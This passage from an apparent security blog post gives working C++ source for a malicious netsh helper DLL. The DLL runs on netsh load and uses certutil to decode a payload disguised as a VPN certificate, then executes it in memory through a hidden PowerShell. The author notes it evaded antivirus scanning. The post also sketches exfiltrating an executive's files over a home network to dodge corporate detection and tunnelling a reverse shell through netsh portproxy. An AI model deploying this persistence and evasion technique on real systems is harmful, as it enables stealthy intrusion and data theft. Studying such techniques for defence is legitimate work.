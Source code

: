 In the scenario of a C-level employee working from home, an attacker could load the dll\(payload\) » Execute payload on VPN start-up » Save sensitive files locally » Create script to exfil via home network once payload \(netsh/VPN\) disconnects, avoiding any corporate detection methods.

The source code executes certutil to run the decode process and powershell to execute the payload in memory. There could be a few other ways of doing this, but my focus was to execute all in-memory. The **%YAH%** file does not exist, and doesn’t write to the directory - at least according to a once-over within Event Logs.

[netshade.dll C++ source](https://github.com/rtcrowley/living-off-the-land/blob/master/netshade.cpp):

```cpp
#include <stdio.h>
#include <windows.h>

DWORD WINAPI YahSure(LPVOID lpParameter)
{
   system("@echo off && SET YAH=C:\\Users\\Public\\cisco.ps1 && \
	FOR %Y IN (C:\\Users\\Public\\vpn.crt) DO certutil -f -decode %Y %YAH% >nul 2>nul && \
	FOR %A IN (%YAH%) DO certutil -f -decodehex %A %YAH% >nul 2>nul && \
	FOR %H IN (%YAH%) DO certutil -f -decode %H %YAH% >nul 2>nul && \
	start powershell.exe -win hidden -nonI -nopro $bang = Get-Content %YAH%; del %YAH%; Invoke-Expression $bang");

   return 1;
}

//Custom netsh helper format
extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved)
{
	HANDLE hand;
	hand = CreateThread(NULL, 0, YahSure, NULL, 0, NULL);
	CloseHandle(hand);

	return NO_ERROR;
}
```

When executing netsh or adding the helper, a powershell prompts briefly. I’m sure someone with better knowledge of C++ and/or PowerShell could stop this.

Nothing was flagged when scanning with Windows Defender or Malewarebytes, nor was the execution of the payload via netsh flagged.

![alt text](https://liberty-shell.com/sec/assets/img/shell.gif)

  
 An attacker could avoid sending the reverse shell directly back to its controlled ip, and configure port redirection via **netsh portproxy** to sieve through the web server. This may avoid network defense countermeasures as it’s a public facing server with plenty of traffic going in and out.

An attacker could go another route and exfil data from CALVIN onto the share, then pull from the web server via GET/POST requests.
